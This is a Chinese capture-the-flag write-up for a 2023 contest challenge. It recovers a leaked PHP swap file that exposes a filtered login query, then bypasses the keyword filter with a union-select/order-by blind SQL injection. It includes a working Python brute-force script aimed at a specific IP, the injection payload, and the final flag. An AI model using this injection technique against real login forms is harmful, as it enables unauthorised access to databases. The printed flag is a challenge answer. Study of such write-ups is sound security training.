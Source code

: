 # [天使杯 2023] 题4

![](<./img/Pasted image 20230602151806.png>)

---

尝试扫目录

![](<./img/Pasted image 20230602152103.png>)

能发现一个`index.php`的`swp`文件

```shell
curl 'http://111.74.9.131:18001/.index.php.swp' -o ~/.index.php.swp
vim -r ~/.index.php.swp
```

```php
<?php
//   error_reporting(0);
$dbhost = "db";
$dbuser = "root";
$dbpass = "root";
$db = "ctf";
$conn = mysqli_connect($dbhost, $dbuser, $dbpass, $db);
mysqli_set_charset($conn, "utf8");

/* sql
     create table `admin` (
        `id` int(10) not null primary key auto_increment,
        `user` varchar(50) not null ,
        `pass` varchar(50) not null
     );
  */
function filter($str)
{
    $filterlist = "/user|pass|where|case|when|like|regexp|into|limit|=|for|;|\(|\)/";
    if (preg_match($filterlist, strtolower($str))) {
        die("hacker!");
    }
    return $str;
}
$username = isset($_POST['user']) ? filter($_POST['user']) : die("please input username!");
$password = isset($_POST['pass']) ? filter($_POST['pass']) : die("please input password!");
$sql = "select * from admin where  user = '$username' and pass = '$password' ";
$res = $conn->query($sql);

if ($res->num_rows > 0) {
    $row = $res->fetch_assoc();
    if ($row['id']) {
        echo $row['user'];
    }
} else {
    echo "keep on !";
}
/*
   提交的flag格式为flag{小写字母数字组合}
 */
```

是SQL注入，但是过滤掉了小括号

猜测flag是admin的密码，于是尝试使用`union select`结合`order by`进行盲注

```python
import sys
import requests

# curl 'http://111.74.9.131:18001' --data "user=admin' union select 1,2,'4ea' order by 3#" --data "pass=123"
url = 'http://111.74.9.131:18001'

template = {'user': "admin' union select 1,2,'%s' order by 3#", 'pass': '123'}

# lower case & numbers
chars = '0123456789abcdefghijklmnopqrstuvwxyz'

result = ''

while True:
    for i in range(0, len(chars)):
        payload = template.copy()
        payload['user'] = payload['user'] % (result + chars[i])
        r = requests.post(url, data=payload)
        if 'admin' in r.text:
            result += chars[i - 1]
            print(chars[i - 1], end='')
            sys.stdout.flush()
            break
```

![](<./img/Pasted image 20230602153237.png>)

出来的结果是满足比admin的password小的值，因此推出（把四周的值都试一遍）flag为`flag{4e9b954bc4bd3cd5ba6ea9335fbe4b41}`

